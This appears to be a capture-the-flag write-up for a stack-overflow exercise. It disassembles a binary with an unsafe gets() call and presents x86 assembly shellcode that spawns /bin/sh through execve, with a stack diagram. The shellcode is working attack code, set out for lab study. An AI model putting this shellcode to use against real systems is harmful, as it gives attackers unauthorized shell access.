 # Level2

	(gdb) disas main
	Dump of assembler code for function main:
	   0x0804853f <+0>:	push   %ebp
	   0x08048540 <+1>:	mov    %esp,%ebp
	   0x08048542 <+3>:	and    $0xfffffff0,%esp
	   0x08048545 <+6>:	call   0x80484d4 <p>
	   0x0804854a <+11>:	leave  
	   0x0804854b <+12>:	ret    
	End of assembler dump.
	(gdb) disas p
	Dump of assembler code for function p:
	   0x080484d4 <+0>:	push   %ebp
	   0x080484d5 <+1>:	mov    %esp,%ebp
	   0x080484d7 <+3>:	sub    $0x68,%esp
	   0x080484da <+6>:	mov    0x8049860,%eax
	   0x080484df <+11>:	mov    %eax,(%esp)
	   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
	   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
	   0x080484ea <+22>:	mov    %eax,(%esp)
	   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
	   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
	   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
	   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
	   0x080484fb <+39>:	and    $0xb0000000,%eax
	   0x08048500 <+44>:	cmp    $0xb0000000,%eax
	   0x08048505 <+49>:	jne    0x8048527 <p+83>
	   0x08048507 <+51>:	mov    $0x8048620,%eax
	   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
	   0x0804850f <+59>:	mov    %edx,0x4(%esp)
	   0x08048513 <+63>:	mov    %eax,(%esp)
	   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
	   0x0804851b <+71>:	movl   $0x1,(%esp)
	   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
	   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
	   0x0804852a <+86>:	mov    %eax,(%esp)
	   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
	   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
	   0x08048535 <+97>:	mov    %eax,(%esp)
	   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
	   0x0804853d <+105>:	leave  
	   0x0804853e <+106>:	ret    
	End of assembler dump.

There is another vulnerable gets call, however this time there is no useful function to exploit.
We can build our own asm code that will run a shell, and pass its memory address to the binary somehow.

Here is our code :

	global	_start
	section	.text
	
	_start:	
		; set registers to NULL
		xor	eax, eax
		xor	ebx, ebx
		xor	ecx, ecx
		xor	edx, edx
	
		push	edx		; push NULL
		; We need to push /bin/sh on the stack using a x86 architecture. So we need to push 4 bytes at a time, and in little endian number
		push	0x68732f6e	; hs/n
		push	0x69622f2f	; ib//
		
		mov	ebx, esp
		push	edx ; push NULL
		
		push	ebx ; push string address
		
		mov	ecx, esp
		mov	al, 11 ; syscall number of execve
		int	0x80

This is how the stack will look like : 

	   +------------------------+
	   |        //bin/sh        |<-+
	   +------------------------+  |
	   |         edx = 0        |  |
	   +------------------------+  |
	+->|   ebx = addr chaine    |--+
	|  +------------------------+
	|  |            0           |
	|  +------------------------+
	+--| ecx = addr addr chaine |
	   +------------------------+

[source](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20shellcodes.pdf)

